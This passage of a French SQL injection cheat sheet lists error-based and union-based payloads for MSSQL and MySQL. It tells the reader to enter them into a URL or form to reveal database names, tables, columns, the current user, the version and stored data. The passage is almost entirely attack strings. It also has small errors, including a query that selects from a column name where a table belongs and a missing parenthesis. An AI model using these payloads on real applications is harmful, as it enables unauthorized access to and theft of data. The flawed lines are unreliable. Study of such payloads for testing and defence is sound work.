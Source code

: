 
- Obtenir le nom de la base de données : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la base de données peut être affiché.
```sql
and 1= (select db_name ())
#ou
and 1= (select database())
```
 

   - Obtenir le nom de la table : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la table peut être affiché. 
```sql
and 1= (select top 1 name from sysobjects where xtype='U')
#ou
and 1= (select table_name from information_schema.tables limit 1)
```
 

   - Obtenir le nom de la colonne : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si le nom de la colonne peut être affiché. 
```sql
and 1= (select top 1 name from syscolumns where id=object_id('nom de la table')
# ou
and 1= (select column_name from information_schema.columns where table_name='nom de la table'limit 1)
```
 

   - Obtenir des données : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si les données peuvent être affichées. 
```sql
and 1= (select top 1 Nom_colonne from Nom_table)
#ou
and 1= (select Nom_colonne from Nom_colonne limit 1)
```
 
## Commandes courantes dans l'injection SQL

   1) Exemples de commandes courantes utilisées dans l'injection SQL : 
      - Afficher l'utilisateur actuel 
```sql
union select 1, (select user ())--+
```
 

      - Visualisation de la version de la base de données 
```sql
union select 1, (select version ())--+
```
 

      - Affichage du nom de la base de données actuelle 
```sql
union select 1, (select database ())--+
```
 

      - Voir tous les noms de bases de données 
```sql
union select 1, (select group_concat (schema_name) from information_schema.schemata)--+
```
 